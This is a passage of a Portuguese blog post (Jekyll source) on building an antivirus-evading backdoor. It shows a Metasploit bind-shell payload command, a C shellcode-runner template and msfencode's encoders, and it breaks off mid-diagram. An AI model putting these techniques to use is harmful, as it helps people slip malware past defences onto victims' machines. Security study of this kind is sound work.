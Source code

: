 ```yaml
---
layout: post
title: Bypass Windows e Linux + metasploit [DEP ASLR]
categories: [Exploration]
tags: [DEP ,ASLR,bypass,windows,linux]
fullview: true
comments: true
---
```

<p>Há pouco tempo estava estudando sobre alocação de memoria, na tentaria de bypassar algumas proteções dos software Anti-vírus,  a princípio tentei de diversas forma usando Encode's do metasploit fiz várias combinações de encode's esperando a saída de um backdoor  Não-detectável, os encoder's do metasploit são muitos bons, pra época que eles foram desenvolvidos rsrsrs, porém para os AV eles já são bem conhecidos. Com isso em mente resolvi modelar um backdoor de uma forma customizada, não irei usar o msfpayload para gerar os executáveis, mas irei usar o msfencode para gerar o shellcode, os shellcode's depois gerado precisamos criar um  ponteiro para que ele possa receber a posicao onde nosso payload está. </p>
{% highlight c++ %} 
==================Metasploit =====================
 ./msfpayload windows / shell_bind_tcp C
===============================================
Char payload [4096] = "shellcode Here" ;
int main (int argc, char ** argv) { 
        (* (void (*) ()) payload) (); 
        return (0); 
}
{% endhighlight %}
<p> Contudo, Esse código acima já está bem manjado pelos AV, mas é um código funcional tanto para o linux quanto para windows. Nem todo shellcode poderá funcionar no windows, talvez você receba um aviso de violação de memoria, ou até mesmo um "falha de segmentação " no linux.  Vamos para os encoder's:</p>
<pre class="code">
mh40xf@mh4x0flabs:~#./msfencode -l -a x86 

Framework Encoders (architectures: x86)
=======================================

Name                    Rank       Description
----                    ----       -----------
generic/none            normal     The "none" Encoder
x86/alpha_mixed         low        Alpha2 Alphanumeric Mixedcase Encoder
x86/alpha_upper         low        Alpha2 Alphanumeric Uppercase Encoder
x86/avoid_utf8_tolower  manual     Avoid UTF8/tolower
x86/call4_dword_xor     normal     Call+4 Dword XOR Encoder
x86/countdown           normal     Single-byte XOR Countdown Encoder
x86/fnstenv_mov         normal     Variable-length Fnstenv/mov Dword XOR Encoder
x86/jmp_call_additive   normal     Jump/Call XOR Additive Feedback Encoder
x86/nonalpha            low        Non-Alpha Encoder
x86/nonupper            low        Non-Upper Encoder
x86/shikata_ga_nai      excellent  Polymorphic XOR Additive Feedback Encoder
x86/single_static_bit   manual     Single Static Bit
x86/unicode_mixed       manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
x86/unicode_upper       manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
</pre>
<p> De todos, O que merece mais atenção e claro porque é  o mais usado é o shikata_ga_nai, até porque ele gera shellcode Polymorphic, ou seja, cada shellcode gerado será diferente do outro, o Rank dele é excellent (lembrei de mortalKombat agora hahahaha EXCELLENTE), creio eu que ele foi desenvolvido para bypassar IDS, NIDS etc... pois alguns IDS bloqueia sequencias de caracter em hex, que são conhecido como malicioso ex: uma shellbind, reverse. e quanto a estrutura do shelllcode ? então fica mais ou menos assim:</p>
<pre class="code">
                 No SHellcode 
|=============|=================|   